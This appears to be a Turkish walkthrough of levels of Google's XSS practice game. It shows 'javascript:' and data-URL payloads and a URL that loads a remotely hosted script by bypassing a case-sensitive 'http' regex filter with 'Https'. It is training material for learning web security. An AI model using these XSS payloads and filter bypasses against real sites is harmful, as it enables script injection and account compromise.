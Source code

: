 Anahtar kelime: `html attribute xss`

Kullanılan payload: `javascript:alert(1)`

## Level 6

![resim](https://i.ibb.co/CBFVhsg/resim.png)

Burada uzaktan bir js dosyası çağırıp alert() verdirmemizi istiyor. Url'ye bakacak olursak websitesinin root klasöründen `/static/gadget.js` i kendisi çağırmaya çalışmış. Burayı manipüle edebiliriz.

[Buradan](https://wiki.zacheller.dev/web-app-pentest/xss/data-urls) edindiğimiz bilgiler üzerinden `#data:text/plain,alert(1)` şeklinde uzaktan çağrılmış gibi veri gönderebiliyoruz. O zaman url'yi düzenlersek: `https://xss-game.appspot.com/level6/frame#data:text/plain,alert(1)` elde ederiz. Go tuşuna basarsak: 

![resim](https://i.ibb.co/6nrXGv3/resim.png)

Peki uzaktan js enjeksiyonu nasıl yapacağız?

Bunun için github gist, paste siteleri vb. denedim ancak işe yarayan sadece [glitch](https://xss-game-appspot-com-level-6.glitch.me/i.js) oldu. Gösterdiğim gibi js dosyasını urlye giriyoruz:

Girdiğim url: `https://xss-game.appspot.com/level6/frame#https://xss-game-appspot-com-level-6.glitch.me/i.js`

![resim](https://i.ibb.co/9y35Px5/resim.png)

Olmadı. Peki neden? Çünkü kaynak kodları incelersek (index.html):

```html
<script>
// This will totally prevent us from loading evil URLs!
if (url.match(/^https?:\/\//)) {
  setInnerText(document.getElementById("log"),
    "Sorry, cannot load a URL containing \"http\".");
  return;
}
</script>
```

Berbat bir uzaktan js yükleme koruması ile karşılaşıyoruz. Bu basit bir regex ile hazırlanmış koruma. Atlatmak için binbir farklı yöntem kullanılabilir.

Ben bunu kullanmayı yeterli buldum: `https://xss-game.appspot.com/level6/frame#Https://xss-game-appspot-com-level-6.glitch.me/i.js`

Sadece urlmin başındaki https'i Https olarak değiştirdim ve sonuç:

![resim](https://i.ibb.co/5BrNrrd/resim.png)

Anahtar kelime: `remote code execution js`

Kullanılan payload: `https://xss-game.appspot.com/level6/frame#Https://xss-game-appspot-com-level-6.glitch.me/i.js`
